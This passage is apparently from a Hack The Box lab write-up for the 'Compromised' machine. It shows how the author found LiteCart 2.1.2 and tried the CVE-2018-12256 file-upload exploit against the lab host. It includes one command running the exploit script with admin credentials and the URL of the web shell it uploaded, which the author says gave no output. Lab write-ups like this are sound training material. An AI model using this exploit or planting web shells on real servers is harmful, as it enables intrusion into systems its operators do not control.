 ![admin](/images/compromised/6adminpanel.png)

### CVE-2018-12256

we found the  litecart version  is 2.1.2 from admin page.
and i got an expoit for this version `LiteCart 2.1.2 - Arbitrary File Upload`  check  [[**CVE-2018-12256**]](https://www.exploit-db.com/exploits/45267
).


```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/compromized/exploit]                                
└──╼ $python litecart.py -p'theNextGenSt0r3!~' -u admin -t http://10.10.10.207/shop/admin/
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/HFPEY.php?c=id                             
```
but this doesn't give us anything.
![noshell](/images/compromised/noshell.png)
